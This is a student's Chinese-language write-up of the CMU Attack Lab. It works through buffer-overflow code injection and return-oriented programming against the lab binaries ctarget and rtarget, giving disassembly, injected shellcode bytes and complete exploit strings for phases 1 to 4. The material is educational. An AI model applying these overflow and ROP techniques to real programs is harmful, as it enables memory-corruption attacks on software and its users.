

# 准备工作
文件夹中的几个重要文件如下：
- cookie.txt: 8 个 16 进制数字的码，用于唯一标记
- ctarget: 准备用于 code injection attack
- farm.c: 用于 return oriented programming attacks
- hex2raw: 用于生成攻击的二进制文件
- README.txt: 介绍了文件夹中文件的内容
- rtarget: 准备用于 return oriented programming attacks
实验分为 5 个 phase，其中 Phase 1 到 phase 3 是使用 code injection attack，phase 4-5 使用 return oriented programming attack。
# Part I: Code Injection Attack
# Phase 1：覆盖返回地址
在这个 phase 中，我们需要引导 ctarget 中的 test 函数返回到 touch1 函数。首先我们对 ctarget 做反汇编。其中 test 函数的汇编代码如下：
0000000000401968 <test>:
401968: 48 83 ec 08 sub $0x8,%rsp
40196c: b8 00 00 00 00 mov $0x0,%eax
401971: e8 32 fe ff ff callq 4017a8 <getbuf>
401976: 89 c2 mov %eax,%edx
401978: be 88 31 40 00 mov $0x403188,%esi
40197d: bf 01 00 00 00 mov $0x1,%edi
401982: b8 00 00 00 00 mov $0x0,%eax
401987: e8 64 f4 ff ff callq 400df0 <__printf_chk@plt>
40198c: 48 83 c4 08 add $0x8,%rsp
401990: c3 retq
而 touch1 函数的地址是 0x4017c0 。
在这其中我们调用 getbuf 函数来进行 buffer overflow 攻击，原本的该函数的下一条返回地址是 0x401976 ，我们需要将其换成 0x4017c0 。我们现在对 getbuf 进行反汇编 (nop 指令省去)：
00000000004017a8 <getbuf>:
4017a8: 48 83 ec 28 sub $0x28,%rsp
4017ac: 48 89 e7 mov %rsp,%rdi
4017af: e8 8c 02 00 00 callq 401a40 <Gets>
4017b4: b8 01 00 00 00 mov $0x1,%eax
4017b9: 48 83 c4 28 add $0x28,%rsp
4017bd: c3 retq
对该过程进行分析：
- 留出 40 个字节的位置
- rdi = rsp
- 调用 gets 函数
- eax = 1
- 恢复栈空间
- 返回
要完成这个实验，我们需要直到几个值：
- buf 的位置：应该进入
getbuf后，%rsp - 40之后的位置 - 返回地址在栈中位置：在调用
callq函数时，我们会将%rsp - 8，然后将返回地址压入，然后将%rip设置为getbuf函数的地址。（同理，调用retq的时候，我们会把栈顶的地址赋给%rip，然后让%rsp + 8，也就是弹出返回地址）因此返回地址在栈中的位置也就是调用完callq之后%rsp的位置。 touch1函数的地址:0x4017c0
这样来看，buf 及其本地变量部分应该是分配了 40 个字节，而返回地址有 8 个字节，因此我们在写入的时候，前 40 个字节随意（不能有 0x0a, 那个是换行符）。因为是小端法，最后 8 个字节应该是 0xc0 0x17 0x40 。
该阶段输入内容存储在 phase1.txt 中，内容如下： 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 c0 17 40 。输入命令 ./hex2raw < phase1.txt | ./ctarget -q 进行测试 ( -q 是指运行在本地电脑上)，结果如下：
Cookie: 0x59b997fa | |
Type string:Touch1!: You called touch1() | |
Valid solution for level 1 with target ctarget | |
PASS: Would have posted the following: | |
user id bovik | |
course 15213-f15 | |
lab attacklab | |
result 1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 |
成功！
# Phase 2：在 buf 中插入攻击代码并覆盖返回地址
在这个 phase 中我们需要在 buffer overflow 字符串中保留一部分攻击代码，让 test 函数返回到 touch2 ，而且我们需要让 val 的值等于 cookie 的值。（而且这里我们不能直接让 test 返回到打印 Touch2! 那一句，因为前面有 vlevel = 2 ，后面需要验证这个值是不是 2，如果直接跳到那一句的话， vlevel 没有赋值，也肯定不等于 2，验证就会失败）。
touch2 的函数源码如下：
void touch2(unsigned val) | |
{ | |
vlevel = 2; /* Part of validation protocol */ | |
if (val == cookie) { | |
printf("Touch2!: You called touch2(0x%.8x)\n", val); | |
validate(2); | |
} else { | |
printf("Misfire: You called touch2(0x%.8x)\n", val); | |
fail(2); | |
} | |
exit(0); | |
} |
touch2 的汇编函数如下：
00000000004017ec <touch2>:
seg1:
4017ec: 48 83 ec 08 sub $0x8,%rsp
4017f0: 89 fa mov %edi,%edx
4017f2: c7 05 e0 2c 20 00 02 movl $0x2,0x202ce0(%rip) # 6044dc <vlevel>
4017f9: 00 00 00
4017fc: 3b 3d e2 2c 20 00 cmp 0x202ce2(%rip),%edi # 6044e4 <cookie>
401802: 75 20 jne 401824 <touch2+0x38>
401804: be e8 30 40 00 mov $0x4030e8,%esi
401809: bf 01 00 00 00 mov $0x1,%edi
40180e: b8 00 00 00 00 mov $0x0,%eax
401813: e8 d8 f5 ff ff callq 400df0 <__printf_chk@plt>
401818: bf 02 00 00 00 mov $0x2,%edi
40181d: e8 6b 04 00 00 callq 401c8d <validate>
401822: eb 1e jmp 401842 <touch2+0x56>
seg2:
401824: be 10 31 40 00 mov $0x403110,%esi
401829: bf 01 00 00 00 mov $0x1,%edi
40182e: b8 00 00 00 00 mov $0x0,%eax
401833: e8 b8 f5 ff ff callq 400df0 <__printf_chk@plt>
401838: bf 02 00 00 00 mov $0x2,%edi
40183d: e8 0d 05 00 00 callq 401d4f <fail>
seg3:
401842: bf 00 00 00 00 mov $0x0,%edi
401847: e8 f4 f5 ff ff callq 400e40 <exit@plt>
从上述汇编代码可以看出， val 的值在最开始存在 edi 处。那么我们的目的就是让这个值等于 cookie 。而且 cookie 的位置是 6044e4 。所以我们的目的是让 %edi 寄存器的值等于 6044e4 处的值。
要实现攻击，我们的 buffer overflow 必须完成四步动作：
- 让 return address 等于 buf 的开头
- 在 buf 开头插入赋值语句，让
%edi = *0x6044e4 - 让 return address = touch2 的入口地址 (
0x4017ec) - 调用
ret
首先，要完成第一步，我们首先得找到 buf 的开头位置。通过 phase 1 的 getbuf 我们可以知道，buf 的位置在压完返回地址后减去 40 个字节的位置。因为前三问的栈的位置固定，因此我们可以通过 gdb 看一下减去 40 以后 %rsp 在哪里。
我们着重观察 3 个地方的 $rsp ：
- 调用
getbuf之前: 0x5561dca8 - 调用
getbuf之后: 0x5561dca0 - 调用
rsp = rsp - 40之后: 0x5561dc78
那么我们可以判断 buf 的起始位置是 0x5561dc78 ，返回地址的位置在其后 40 个字节处，也就是 0x5561dca0 。那么我们需要让 return address (buf 最后 8 个字节) 的值等于 0x5561dc78 。换成小端序就是 0x78 0xdc 0x61 0x55 。
第二条要生成的指令应该是:
movl $0x6044e4,%eax
movl (%eax),%edi
第三条要生成的指令应该是：
subq $0x8,%rsp
movl 0x4017ec,($rsp)
最后一条插入的指令是 ret ，在这个过程中， %rsp 处的内容会被赋值给 %rip ， %rsp 会自动加上 8。
最后插入数条 nop 指令实现 PC 的顺序累加。
由于这些指令在 Appendix A 表格中没有，所以我们需要手动生成。我们将如下内容保存在文件中：
movl $0x6044e4,%eax
movl (%eax),%edi
subq $0x8,%rsp
movl $0x4017ec,(%rsp)
ret
nop
nop
nop
nop
然后使用 gcc -c ph2.s 生成 ph2.o 文件，然后使用 objdump -d ph2.o > ph2.d ，打开 ph2.d ，有如下内容：
ph2.o: file format elf64-x86-64
Disassembly of section .text:
0000000000000000 <.text>:
0: b8 e4 44 60 00 mov $0x6044e4,%eax
5: 67 8b 38 mov (%eax),%edi
8: 48 83 ec 08 sub $0x8,%rsp
c: c7 04 24 ec 17 40 00 movl $0x4017ec,(%rsp)
13: c3 retq
14: 90 nop
15: 90 nop
16: 90 nop
17: 90 nop
那么我们所需要的字节就是 b8 e4 44 60 00 67 8b 38 48 83 ec 08 c7 04 24 ec 17 40 00 c3 ，共 20 字节。后续再插入 20 个字节的 nop (0x90)
完整的字符串是 b8 e4 44 60 00 67 8b 38 48 83 ec 08 c7 04 24 ec 17 40 00 c3 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 78 dc 61 55 ，我将其保存在 phase2.txt 中。
注：一开始把
0x5561dc78打成了0x5564dc78导致出现访问了未被初始化的位置，出现了 segmentation fault。在输入地址的时候要小心谨慎，不要出现太多问题。此外，注入代码的时候需要手动添加
ret指令，否则程序不知道要返回，就算 buffer overflow 覆盖了返回地址也没用。
结果如下：
Cookie: 0x59b997fa | |
Type string:Touch2!: You called touch2(0x59b997fa) | |
Valid solution for level 2 with target ctarget | |
PASS: Would have posted the following: | |
user id bovik | |
course 15213-f15 | |
lab attacklab | |
result 1:PASS:0xffffffff:ctarget:2:B8 E4 44 60 00 67 8B 38 48 83 EC 08 C7 04 24 EC 17 40 00 C3 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 78 DC 61 55 |
成功！
# Phase 3：在 buf 中插入所需字符串和攻击代码，并覆盖返回地址
在 phase 3 中，我们需要让程序在 getbuf 后，运行 touch3 函数，其注入方式和 phase 2 类似。（此处需要利用 vlevel = 3 进行跳转后验证，因此和上次一样，我们不能直接跳转到 Touch3! 语句，还是需要注入代码，将 %rdi 设置为 cookie 的值，然后再引导程序跳转到 touch3 的开头语句）。 touch3 函数的 C 语言版本如下：
/* Compare string to hex represention of unsigned value */ | |
int hexmatch(unsigned val, char *sval) | |
{ | |
char cbuf[110]; | |
/* Make position of check string unpredictable */ | |
char *s = cbuf + random() % 100; | |
sprintf(s, "%.8x", val); | |
return strncmp(sval, s, 9) == 0; | |
} | |
void touch3(char *sval) | |
{ | |
vlevel = 3; /* Part of validation protocol */ | |
if (hexmatch(cookie, sval)) { | |
printf("Touch3!: You called touch3("%s")\n", sval); | |
validate(3); | |
} else { | |
printf("Misfire: You called touch3("%s")\n", sval); | |
fail(3); | |
} | |
exit(0); | |
} |
# 一开始的错误解答
这里的差别在于我们输入的 string 是一个 cookie 的字符串表示。我们对 touch3 做反汇编看看 cookie 的字符串表示存在哪里？
0x000000000040190b <+17>: mov 0x202bd3(%rip),%edi # 0x6044e4 <cookie>
我们输入 x/s 0x6044e4 看看结果：
(gdb) x/s 0x6044e4
0x6044e4 <cookie>: ""
这里同样，可以看出来和上一次的 cookie 放在一个位置上。但是上次输入的是数字，这次输入的是字符串。因此，上次是将输入的值 %rdi 设置为 0x6044e4 位置的值。而这次 %rdi 指向输入的字符串，我们需要做的是将 %rdi 设置为 0x6044e4 。
此外， touch3 的入口地址为 0x4018fa 。因此在最后需要让 return address 等于这个值。
那么总体的注入和上次遵循一样的步骤：
- 让 return address 等于 buf 的开头 (
0x5561dc78) - 在 buf 开头插入赋值语句，让
%edi = 0x6044e4 - 让 return address = touch3 的入口地址 (
0x4018fa) - 调用
ret
综上，这次的调用语句是：
movl $0x6044e4,%edi
subq $0x8,%rsp
movl $0x4018fa,(%rsp)
ret
nop
nop
nop
nop
将其保存在 ph3.s 中，输入 gcc -c ph3.s 生成 ph3.o 文件，再 objdump -d ph3.o > ph3.d ，生成 ph3.d 文件。
文件内容如下：
ph3.o: file format elf64-x86-64
Disassembly of section .text:
0000000000000000 <.text>:
0: bf e4 44 60 00 mov $0x6044e4,%edi
5: 48 83 ec 08 sub $0x8,%rsp
9: c7 04 24 fa 18 40 00 movl $0x4018fa,(%rsp)
10: c3 retq
11: 90 nop
12: 90 nop
13: 90 nop
14: 90 nop
那么其一直到 ret 的字节即为 bf e4 44 60 00 48 83 ec 08 c7 04 24 fa 18 40 00 c3 。一共 17 个字节。将其字节复制到 phase3.txt 的最前面。添加 23 个 nop ( 0x90 ) 凑齐 40 个字节，最后 8 个字节的值必须等于 0x5561dc78 。换成小端序就是 0x78 0xdc 0x61 0x55 。
完整字符串如下：
bf e4 44 60 00 48 83 ec 08 c7 04 24 fa 18 40 00 c3 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 78 dc 61 55
输入 ./hex2raw < phase3.txt | ./ctarget 。结果如下：
Cookie: 0x59b997fa | |
Type string:Misfire: You called touch3("���Y") | |
FAIL: Would have posted the following: | |
user id bovik | |
course 15213-f15 | |
lab attacklab | |
result 1:FAIL:0xffffffff:ctarget:3:BF E4 44 60 00 48 83 EC 08 C7 04 24 FA 18 40 00 C3 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 78 DC 61 55 |
最后确实跳转到了 touch3 ，可是 cookie 字符串的值完全不是我们想要的那个东西啊喂！(很不爽)
# 忽略随机栈空间的不正确解答
我们最早是认为，应该让 %edi 指向 0x6044e4 ，也就是 cookie 字符串所在的位置，来让 %edi 和 cookie 相等，但是好像题目不是这么个意思。仔细看了原本的 C 语言函数后发现， cookie 不是个字符串，还是个 unsigned 类型，但是我们之前并没有仔细阅读 C 语言函数。因此闹了笑话。争取的意思应该是让 输入的字符串 和 打印出来的 cookie 的值 相同。所以这里不能让 %rdi 指向 cookie 所在位置，因为其类型都不一样。而应该在代码中插入一段字符串，将其值赋给 %rdi ，然后让 %rdi 和 cookie 的打印版进行比较。
那么 cookie 的值是多少？我们使用 p /x cookie 命令打印一下：
(gdb) p /x cookie
$4 = 0x59b997fa
所以输入的字符串应该是 0x59b997fa 。
经过阅读 attacklab.pdf，作者给出了以下几个提示：
- 攻击字符串中应该包含一个 cookie 的字符串表示。该字符串应该包含 8 个 16 进制字符（不带 0x）
- 字符串最后应该有个 0，输入
man ascii在 Linux 中查找 ascii 表 - 攻击代码应该让
%rdi的值等于这个字符串的起始地址 hexmatch和strncmp可能会覆盖一部分getbuf中的 buf，注意不要让你的攻击字符串被覆盖掉。
那么初始的准备工作应该是：
- 确定插入字符串和攻击代码的有效区域，防止被
hexmatch和strncmp影响到 - 查找
cookie字符串的编码，加上一个\0，并插入到攻击代码之前 - 确定攻击代码的起始位置（在插入的字符串后），将其地址插入到 buffer overflow 的最后 8 个字节
在攻击代码中所做的工作应该是：
- 让
%rdi = 插入字符串的起始位置 - 将
touch3的起始位置插入到返回地址处 - 调用
ret返回 - 通过多个
nop填充字符串（也可以不填充？）
我们首先确定 getbuf 的 buf 范围， hexmatch 的辐射范围和 strncmp 的辐射范围。
通过前文我们分析过：
- 调用
getbuf之前:0x5561dca8 - 调用
getbuf之后:0x5561dca0 - 调用
rsp = rsp - 40之后:0x5561dc78
可以了解到 buf 的范围是： 0x5561dc78 ~ 0x5561dc9f ， buf 后 8 个字节的返回地址的位置是 0x5561dca0 。
对 touch3 进行反汇编可得：
Dump of assembler code for function touch3:
0x00000000004018fa <+0>: push %rbx
0x00000000004018fb <+1>: mov %rdi,%rbx
0x00000000004018fe <+4>: movl $0x3,0x202bd4(%rip) # 0x6044dc <vlevel>
0x0000000000401908 <+14>: mov %rdi,%rsi
0x000000000040190b <+17>: mov 0x202bd3(%rip),%edi # 0x6044e4 <cookie>
0x0000000000401911 <+23>: callq 0x40184c <hexmatch>
0x0000000000401916 <+28>: test %eax,%eax
0x0000000000401918 <+30>: je 0x40193d <touch3+67>
0x000000000040191a <+32>: mov %rbx,%rdx
0x000000000040191d <+35>: mov $0x403138,%esi
0x0000000000401922 <+40>: mov $0x1,%edi
0x0000000000401927 <+45>: mov $0x0,%eax
0x000000000040192c <+50>: callq 0x400df0 <__printf_chk@plt>
0x0000000000401931 <+55>: mov $0x3,%edi
0x0000000000401936 <+60>: callq 0x401c8d <validate>
0x000000000040193b <+65>: jmp 0x40195e <touch3+100>
0x000000000040193d <+67>: mov %rbx,%rdx
0x0000000000401940 <+70>: mov $0x403160,%esi
0x0000000000401945 <+75>: mov $0x1,%edi
0x000000000040194a <+80>: mov $0x0,%eax
0x000000000040194f <+85>: callq 0x400df0 <__printf_chk@plt>
0x0000000000401954 <+90>: mov $0x3,%edi
0x0000000000401959 <+95>: callq 0x401d4f <fail>
0x000000000040195e <+100>: mov $0x0,%edi
0x0000000000401963 <+105>: callq 0x400e40 <exit@plt>
End of assembler dump.
对 hexmatch 进行反汇编可得：
Dump of assembler code for function hexmatch:
0x000000000040184c <+0>: push %r12
0x000000000040184e <+2>: push %rbp
0x000000000040184f <+3>: push %rbx
0x0000000000401850 <+4>: add $0xffffffffffffff80,%rsp
0x0000000000401854 <+8>: mov %edi,%r12d
0x0000000000401857 <+11>: mov %rsi,%rbp
0x000000000040185a <+14>: mov %fs:0x28,%rax
0x0000000000401863 <+23>: mov %rax,0x78(%rsp)
0x0000000000401868 <+28>: xor %eax,%eax
0x000000000040186a <+30>: callq 0x400db0 <random@plt>
0x000000000040186f <+35>: mov %rax,%rcx
0x0000000000401872 <+38>: movabs $0xa3d70a3d70a3d70b,%rdx
0x000000000040187c <+48>: imul %rdx
0x000000000040187f <+51>: add %rcx,%rdx
0x0000000000401882 <+54>: sar $0x6,%rdx
0x0000000000401886 <+58>: mov %rcx,%rax
0x0000000000401889 <+61>: sar $0x3f,%rax
0x000000000040188d <+65>: sub %rax,%rdx
0x0000000000401890 <+68>: lea (%rdx,%rdx,4),%rax
0x0000000000401894 <+72>: lea (%rax,%rax,4),%rax
0x0000000000401898 <+76>: shl $0x2,%rax
0x000000000040189c <+80>: sub %rax,%rcx
0x000000000040189f <+83>: lea (%rsp,%rcx,1),%rbx
0x00000000004018a3 <+87>: mov %r12d,%r8d
0x00000000004018a6 <+90>: mov $0x4030e2,%ecx
0x00000000004018ab <+95>: mov $0xffffffffffffffff,%rdx
0x00000000004018b2 <+102>: mov $0x1,%esi
0x00000000004018b7 <+107>: mov %rbx,%rdi
0x00000000004018ba <+110>: mov $0x0,%eax
0x00000000004018bf <+115>: callq 0x400e70 <__sprintf_chk@plt>
0x00000000004018c4 <+120>: mov $0x9,%edx
0x00000000004018c9 <+125>: mov %rbx,%rsi
0x00000000004018cc <+128>: mov %rbp,%rdi
0x00000000004018cf <+131>: callq 0x400ca0 <strncmp@plt>
0x00000000004018d4 <+136>: test %eax,%eax
0x00000000004018d6 <+138>: sete %al
0x00000000004018d9 <+141>: movzbl %al,%eax
0x00000000004018dc <+144>: mov 0x78(%rsp),%rsi
0x00000000004018e1 <+149>: xor %fs:0x28,%rsi
0x00000000004018ea <+158>: je 0x4018f1 <hexmatch+165>
0x00000000004018ec <+160>: callq 0x400ce0 <__stack_chk_fail@plt>
0x00000000004018f1 <+165>: sub $0xffffffffffffff80,%rsp
0x00000000004018f5 <+169>: pop %rbx
0x00000000004018f6 <+170>: pop %rbp
0x00000000004018f7 <+171>: pop %r12
0x00000000004018f9 <+173>: retq
End of assembler dump.
对 strncmp 进行反汇编可得：
Dump of assembler code for function strncmp_ifunc:
0x00007ffff7e54710 <+0>: endbr64
0x00007ffff7e54714 <+4>: mov 0x14c745(%rip),%rcx # 0x7ffff7fa0e60
0x00007ffff7e5471b <+11>: lea 0xe4b0e(%rip),%rax # 0x7ffff7f39230 <__strncmp_avx2>
0x00007ffff7e54722 <+18>: movabs $0x90000000002,%rdx
0x00007ffff7e5472c <+28>: movabs $0x10000000002,%rsi
0x00007ffff7e54736 <+38>: and 0xc8(%rcx),%rdx
0x00007ffff7e5473d <+45>: cmp %rsi,%rdx
0x00007ffff7e54740 <+48>: je 0x7ffff7e54772 <strncmp_ifunc+98>
0x00007ffff7e54742 <+50>: mov 0x70(%rcx),%edx
0x00007ffff7e54745 <+53>: test $0x100000,%edx
0x00007ffff7e5474b <+59>: je 0x7ffff7e5475d <strncmp_ifunc+77>
0x00007ffff7e5474d <+61>: lea 0xdf78c(%rip),%rax # 0x7ffff7f33ee0 <__strncmp_sse42>
0x00007ffff7e54754 <+68>: testb $0x80,0xcc(%rcx)
0x00007ffff7e5475b <+75>: je 0x7ffff7e54772 <strncmp_ifunc+98>
0x00007ffff7e5475d <+77>: and $0x2,%dh
0x00007ffff7e54760 <+80>: lea 0xaef9(%rip),%rax # 0x7ffff7e5f660 <__strncmp_sse2>
0x00007ffff7e54767 <+87>: lea 0xc51a2(%rip),%rdx # 0x7ffff7f19910 <__strncmp_ssse3>
0x00007ffff7e5476e <+94>: cmovne %rdx,%rax
0x00007ffff7e54772 <+98>: retq
End of assembler dump.
其中与栈相关的指令包括：
hex2match前(touch3中)：
push %rbx
callq hex2match
hex2match:
0x000000000040184c <+0>: push %r12
0x000000000040184e <+2>: push %rbp
0x000000000040184f <+3>: push %rbx
0x00000000004018f5 <+169>: pop %rbx
0x00000000004018f6 <+170>: pop %rbp
0x00000000004018f7 <+171>: pop %r12
retq
hex2match后：
callq strncmp
strncmp:
retq
由于 hexmatch 和 strncmp 是在 touch3 里面调用的，而 touch3 是在执行攻击代码之后调用，在攻击代码中我们将 %rdi 指向字符串的地址，因此我们需要保证的是 touch3 中的 push 和 pop 指令不影响之前的字符串，以免影响 %rdi 指向的值。
在调用 touch3 之前，我们刚刚执行了 ret 指令，其作用是将返回地址赋值给 %rip 并弹出，操作完成后 %rsp 应该在 buf + 48 位置处。我们是通过直接返回到 touch3 的开头位置来执行 touch3 的，而不是 callq touch3 ，因此无需往栈中压入下一条指令的地址（当然这里也没有下一条啦～）
通过上述过程分析我们可以看到，栈的最低位置应该是在经过了一下几个步骤之后：
push %rbx，这里压入了 rbx，栈位置来到了buf + 40callq hex2match，这里压入了callq的下一条指令的地址，栈位置来到了buf + 32push r12，压入了r12，栈位置来到了buf + 24push rbp，压入了rbp，栈位置来到了buf + 16push rbx，压入了rbx，栈位置来到了buf + 8
后续主要执行的都是 pop 和 retq 操作，虽然有一个 callq strncmp ，但是栈的位置不可能低于 buf + 8 。因此我们插入的字符串必须在 buf + 8 之前。我们输入的字符串刚好是 8 个字符，1 个字符一个字节，也刚好是 8 个字节，那么就应当插在 buf 处。从 buf + 8 处开始插入攻击代码。
此外：
59b997fa的字符串编码应该是：0x35 0x39 0x62 0x39 0x39 0x37 0x66 0x61（插在攻击代码前）buf + 8处的地址是：0x5561dc80（插入返回地址部分），转化成小端法应该是80 dc 61 55touch3的地址是0x4018fa
那么我们的攻击指令应该是：
movl $0x5561dc78,%edi
subq $0x8,%rsp
movl $0x4018fa,(%rsp)
ret
将其放入 ph3.s 中，输入 gcc -c ph3.s 得到 ph3.o ，输入 objdump -d ph3.o > ph3.d ，得到 ph3.d 文件如下：
ph3.o: file format elf64-x86-64
Disassembly of section .text:
0000000000000000 <.text>:
0: bf 78 dc 61 55 mov $0x5561dc78,%edi
5: 48 83 ec 08 sub $0x8,%rsp
9: c7 04 24 fa 18 40 00 movl $0x4018fa,(%rsp)
10: c3 retq
11: 90 nop
12: 90 nop
13: 90 nop
14: 90 nop
那么其字节应该是 bf 78 dc 61 55 48 83 ec 08 c7 04 24 fa 18 40 00 c3 。一共 17 个字节，加上最前面 8 个字节，一共 25 个字节。最后插入 15 个字节的 nop 。
执行过程中内存情况如下：
(gdb) x/48xb 0x5561dc78
0x5561dc78: 0x35 0x39 0x62 0x39 0x39 0x37 0x66 0x61
0x5561dc80: 0xbf 0x78 0xdc 0x61 0x55 0x48 0x83 0xec
0x5561dc88: 0x08 0xc7 0x04 0x24 0xfa 0x18 0x40 0x00
0x5561dc90: 0xc3 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x5561dc98: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x5561dca0: 0x80 0xdc 0x61 0x55 0x00 0x00 0x00 0x00
而这里我们打印值后发现我们的 %edi 所指向的字符串如下：
(gdb) x/s $rdi
0x5561dc78: "59b997fa\277x\334aUH\203\354\b\307\004$\372\030@"
而 cookie 的值如下：
(gdb) p /x cookie
$14 = 0x59b997fa
但是后来这个 buf 的空间就变成了这样：
5: x/48xb 0x5561dc78
0x5561dc78: 0x00 0x2e 0x40 0xcb 0xed 0x3e 0x25 0xb2
0x5561dc80: 0x78 0xdc 0x61 0x55 0x00 0x00 0x00 0x00
0x5561dc88: 0xe8 0x5f 0x68 0x55 0x00 0x00 0x00 0x00
0x5561dc90: 0x02 0x00 0x00 0x00 0x00 0x00 0x00 0x00
0x5561dc98: 0x16 0x19 0x40 0x00 0x00 0x00 0x00 0x00
0x5561dca0: 0x00 0x60 0x58 0x55 0x00 0x00 0x00 0x00
但是我们后来发现，这里栈的内容被完全改变了，而且字符串的后面忘了加 \0 字符。所以这里是有一些问题的。
# 正确的解答
经过查阅一些网上的资料发现，我在阅读 C 语言代码的时候忽略了这 2 行：
char cbuf[110]; | |
/* Make position of check string unpredictable */ | |
char *s = cbuf + random() % 100; |
那么 hexmatch 和 strncmp 中分配的空间就是随机的。那么我们所做出的改变应该是让插入的字符串放在父函数 test 的位置，然后让 %rdi 指向 test 栈空间中的位置。 test 函数的位置在返回地址下面，那么应该是 buf + 48 即 0x5561dca8 。其字符 bf 78 dc 61 55 48 83 ec 00 应该在返回地址后面。而攻击代码也应该改为：
movl $0x5561dca8,%edi
subq $0x8,%rsp
movl $0x4018fa,(%rsp)
ret
中间两行代码可以改为 pushq $0x4018fa 。由此，我们在 ph3.s 中放入如下内容：
movl $0x5561dca8,%edi
pushq $0x4018fa
ret
后续步骤和前述一样，我们生成其汇编代码：
ph3.o: file format elf64-x86-64
Disassembly of section .text:
0000000000000000 <.text>:
0: bf a0 dc 61 55 mov $0x5561dca8,%edi
5: 68 fa 18 40 00 pushq $0x4018fa
a: c3 retq
b: 90 nop
c: 90 nop
d: 90 nop
e: 90 nop
这次我们不把汇编代码插入 buf + 8 了，因为没有意义，我们直接将其插入汇编代码开头即可。最后的 8 个字节返回地址改为 0x5561dc78 。其前面的内容为 bf a0 dc 61 55 68 fa 18 40 00 c3 ，共 11 个字节。插入 29 个 nop (0x90)。在插入 8 个字节的返回地址（ 0x000000005561dc78 ）。最后放入 9 个字节的字符串 0x35 0x39 0x62 0x39 0x39 0x37 0x66 0x61 0x00 。最后结果如下：
Cookie: 0x59b997fa | |
Type string:Touch3!: You called touch3("59b997fa") | |
Valid solution for level 3 with target ctarget | |
PASS: Would have posted the following: | |
user id bovik | |
course 15213-f15 | |
lab attacklab | |
result 1:PASS:0xffffffff:ctarget:3:BF A8 DC 61 55 68 FA 18 40 00 C3 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00 |
通过！
# Part II: Return oriented Programming attack
rtarget 的攻击要比 ctarget 难一些，因为：
- 开启了栈随机化，程序的地址难以预测
- 开启了 Non-executable 位，导致我们插入的代码部分难以执行
因此，我们使用一种新的方法：return oriented programming attacks。它的核心在于利用已有的程序，而不是注入代码。每个 gadget 是一个代码段，每个 gadget 的最后都是 ret 指令（编码 c3 ），将这个自己和其前面的部分字节组合起来，可以合成我们想要的指令。此外，针对 x86_64，我们不一定要利用整条指令，有的时候一条指令的一部分字节又可以组成另一条指令。所有 gadget 的地址被压在栈上，每次调用 ret 之后就会返回到下一个 gadget 的地址。
# Phase 4
利用 rop 重做 Phase 2 的实验，可以使用 movq, popq, ret, nop 指令以及前 8 个寄存器 ( %rax–%rdi )
提示：
- 可以在
start_farm和mid_farm之间寻找 gadget - 可以只使用 2 个 gadget
- 当一个 gadget 使用
popq指令时，它从栈上弹出一个数值，所以你的攻击字符串可以是 gadget 地址和数值的组合。
Phase 2 的目的是让 test() 跳转到 touch2 函数，并且需要让 %edi 的值等于 cookie 的值。
我们当时做题的主要过程是：
- 让最后的转移地址为
buf开头的位置 (0x5561dc78) - 在
buf中存储攻击指令- 让
%edi = *0x6054e4 - 将
touch2的地址压入栈中，pushq 0x4017ec
- 让
- 调用
ret返回
我们在 phase 2 中需要插入的代码是：
movq $0x6054e4,%rax
movq (%rax),%rdi
subq $0x8,%rsp
movq $0x4017ec,(%rsp)
ret
这里的变化在于，我们不需要使用 buf 来存储攻击指令了，而是在整个程序中寻找攻击指令。把第一个 gadget 的地址放在返回地址处，把第二个 gadget 的地址放在第一个 gadget 后面。以此类推。我们的目的是找到所有的 gadget。
但是其实这段代码可以通过把 0x6054e4 和 0x6017ec 两个值压在栈上。首先利用一个 popq 指令将其弹出到 %rax 中，然后将 %rax 处的值移动到 %rdi 上。我们可以这样设计栈帧：
第一个 gadget 中的代码是：
movq %rsp, %rxx
popq %rax
movq (%rax),%rdi
第二个 gadget 中的代码是：
popq %rax
movq %rax,(%rxx)
使用 popq %rax 是因为， popq 有 8 种可能的结果，而只有 popq %rax 出现在代码的字节中，因此我们从这里出发。我们翻译一下 movq (%rax),%rdi ，其字节编码为 48 8b 38 。
但是我们发现其实不用那么麻烦，也就是说不用保存之前的 %rsp ，这是因为我们可以通过 gadget 中的 ret 指令弹出后 8 个字节的地址并且首先跳转，那么就无需把 touch3 的地址保存在最开始的部分。栈空间可以简化成如下情况：

但是我们发现一个问题，就是 movq (%rax),%rdi 这条指令所对应的字节在源程序中找不到，因此我们需要采取一个更加优化的办法，就是不在栈上保存 cookie 的地址，而是直接保存 cookie 的值， cookie 的值为 0x59b997fa ，那么栈空间可以简化成如下情况：
这样只需要两条指令就可以做到了。这两条指令的编码是
gadget.o: file format elf64-x86-64
Disassembly of section .text:
0000000000000000 <.text>:
0: 58 pop %rax
1: 48 89 c7 mov %rax,%rdi
但是这两条指令我们无法在同一处找到，因此需要划分为 2 个 gadget 。且两条后面的都必须接数个 90 （ nop ）加上一个 c3 。
第一个的地址是 4019ab 或 4019cc 。第二个的地址是 4019a2 或者 4019c5 。
我们这里使用 4019ab 和 4019a2 两个 gadget 。第一个中存储 pop %rax 指令，第二个中存储 mov %rax, %rdi 指令。最后的栈空间如下：

由此，输入的攻击字符串的前 40 个字节随意，后面 32 个字节根据上述栈情况为（注意应该用小端法）
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
